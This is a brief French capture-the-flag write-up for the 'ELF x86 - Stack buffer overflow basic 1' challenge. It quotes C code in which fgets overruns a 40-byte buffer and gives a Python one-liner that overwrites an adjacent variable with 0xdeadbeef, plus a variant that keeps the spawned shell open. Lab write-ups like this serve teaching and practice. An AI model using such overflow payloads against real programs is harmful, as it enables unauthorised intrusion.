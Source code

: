 # ELF x86 - Stack buffer overflow basic 1

```bash
    int check = 0x04030201;
    char buf[40];
    fgets(buf,45,stdin);
```
La faille se situe dans la fonction fgets qui peut enregister jusqu'a 45 caractères dans buf alors qu'il peut seulement en contenir que 40.

On contruit notre exploit:

```python
python -c 'print "A"*40 + "\xef\xbe\xad\xde"' | ./ch13
```

On obtient la phrase "Yeah dude ! You win !" mais pas de shell. On va donc bloquer l'éxécution avec cat.

```python
(python -c 'print "A"*40 + "\xef\xbe\xad\xde"'; cat) | ./ch13
```
